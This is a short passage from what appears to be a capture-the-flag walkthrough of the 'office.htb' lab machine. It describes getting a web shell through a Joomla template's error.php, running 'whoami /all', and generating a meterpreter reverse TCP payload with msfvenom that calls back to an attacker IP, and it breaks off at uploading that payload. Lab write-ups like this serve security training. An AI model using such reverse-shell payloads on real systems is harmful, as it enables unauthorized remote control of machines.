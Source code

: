 - Navigate to  `http://office.htb/templates/cassiopeia/error.php`

- We have a shell as web_account:

![image46](../resources/78569e91c32941d0a788f13f2307214f.png)

```bash
whoami /all

```

![image47](../resources/9371f2466aa7438699ad9d4fa26208da.png)

- More stable meterpreter shell:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.66 LPORT=4445 -f exe -o shell.exe

```
- Upload meterpreter shell to target :

